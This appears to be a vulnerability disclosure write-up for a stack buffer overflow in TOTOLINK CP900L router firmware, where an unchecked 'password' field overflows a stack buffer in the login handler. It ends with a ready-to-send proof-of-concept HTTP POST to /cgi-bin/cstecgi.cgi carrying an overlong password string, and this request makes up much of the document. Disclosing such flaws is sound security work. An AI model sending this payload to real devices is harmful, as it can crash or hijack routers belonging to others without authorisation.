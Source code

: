 # TOTOLINK CP900L V4.1.5cu.798_B20221228 stack overflow

### Product Information

Product: TOTOLINK CP900L Firmware Version: V4.1.5cu.798_B20221228  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：[TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/257/ids/36.html)

### Analysis

`V3 ` retrieves the value from the `password` field input by the user and processes it in the `sub_412A78` function. The processed result is stored in the stack.

![image-20240525131844792](./image-20240525131844792.png)

As shown in the two images below, in the function`sub_412A78` , the processed (`password`) is written to a buffer located on the stack. **However, there is no validation to check if the `password` (`a1`) exceeds the length of the buffer (`a2`, `v3`).** Therefore, attackers can hijack the program or cause a DDoS attack by carefully constructing data.

![image-20240525132111613](./image-20240525132111613.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/login.html

{"username":"admin","password":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","topicurl":"loginAuth"}

```

![image-20240523224742726](./image-20240523224742726.png)

